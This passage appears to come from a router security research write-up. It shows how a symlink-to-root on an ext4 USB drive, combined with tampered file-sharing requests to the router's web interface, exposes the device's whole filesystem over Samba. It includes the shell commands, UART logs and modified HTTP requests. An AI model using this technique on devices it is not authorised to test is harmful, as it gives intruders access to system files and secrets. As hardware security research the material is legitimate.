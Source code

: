 #### 11. USB + Samba

- cool feature that allows sharing data over LAN from USB device
- sharing is done via Samba service
- can we abuse this to get (at least read) access to the filesystem on the device? :smiling_imp:


#### 12. Symlink USB

1) format USB flash drive as `ext4` Linux partition

```
# fdisk -l
# umount /dev/sdb1
# mkfs.ext4 /dev/sdb1
# file -sL /dev/sdb1 | grep -oE 'ext4 filesystem'
```

2) make symlink from USB device to / (root filesystem)

```
# mkdir /tmp/usb
# mount /dev/sdb1 /tmp/usb && cd /tmp/usb
# ln -s / root
# file root
root: symbolic link to /
# cd && umount /dev/sdb1 && rm -r /tmp/usb
```

3) file-sharing is enabled automatically when we plug in the USB drive (UART logs)

```
hotplugStorageMount: device=/dev/sda1, system=TYPE="ext4"
restarting smbd.
samba restart ok
set usb1_sda1 ok
restarting smbd.
samba restart ok
```

#### 13. Web UI challenges

1) File sharing (recognized directories on USB)

The web application does not list the `root` (symlink) folder in the file-sharing page, so we need to find a way around that.

```
GET /cgi-bin/ParseDirectory?path=/mnt/usb1_sda1 HTTP/1.1
...
------------
[".", "lost+found"]
```

2) File sharing (pointing to the `root` folder)

We can change the folder name in the intercepted request.

```
POST /cgi-bin/USB_Service?oid=usb_filesharing&block=true&sessionkey=468873137 HTTP/1.1
...
{
    "HostName":"usb1_sda1","FolderName":"root",
    "Description":"root","Browseable":true,
    "Public":true,"ValidUsers_GUI":"","Index":0
}
------------
[{"Ret": "ZCFG_SUCCESS", "ReplyMsg": "ValidUsers"}, {"sessionkey": 240818687}]
```
